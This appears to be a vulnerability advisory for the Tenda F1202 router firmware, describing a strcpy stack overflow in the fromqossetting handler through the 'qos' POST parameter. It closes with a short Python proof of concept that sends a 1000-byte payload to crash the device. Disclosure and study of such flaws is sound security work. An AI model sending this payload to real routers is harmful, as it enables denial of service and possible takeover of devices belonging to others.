 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `v1 = strcpy(dest, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `dest` array, thus triggering this security vulnerability.

![image-20240409110218342](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409110218342.png)

![image-20240409110338589](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409110338589.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/fromqossetting"
payload = b"a"*1000

data = {"op":"aaa","qos": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409103000348](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103000348.png)